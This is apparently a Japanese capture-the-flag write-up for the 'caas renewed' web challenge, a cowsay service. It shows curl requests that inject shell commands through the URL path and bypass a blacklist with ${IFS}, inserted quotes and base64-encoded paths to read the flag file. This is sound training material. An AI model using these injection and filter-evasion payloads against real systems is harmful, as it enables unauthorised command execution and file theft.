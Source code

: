 # caas renewed:web:XXXXpts
moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt  
[http://caas.web.nitectf.live/](http://caas.web.nitectf.live/)  

[caasRenewed.zip](caasRenewed.zip)  

# Solution
URLとファイルが渡される。  
![site.png](site/site.png)  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
cowsayコマンドを実行するサービスのようだ。  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki;pwd'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/usr/games
```
OSコマンドインジェクションが可能である。  
問題文より`/etc/cowsay/falg.txt`にフラグがあるようだが、URL経由なので`/`が渡せない。  
さらに配布されたファイルを見ると、`whitelisted.txt`と`blacklist.txt`が含まれていた。  
ブラックリスト形式でブロックしているようだ。  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki;printenv'
 ___________________________
< Whoops! I cannot say that >
 ---------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
ここで`""`をコマンドの途中に挿入できるテクニックを思い出す。  
スペースは`${IFS}`とし、base64をうまく使って`/`を回避してファイル名を指定すればよい。  
以下のように行う(ブラックリストの`sz`も`""`で回避してやる)。  
```bash
$ curl --path-as-is 'http://caas.web.nitectf.live/cowsay/satoki;cat${IFS}$(echo${IFS}"L2V0Yy9jb3dzYXkvZmFs""Zy50eHQ"|b""ase64${IFS}-d);pwd'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
/usr/games
```
flagが得られた。  

## nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}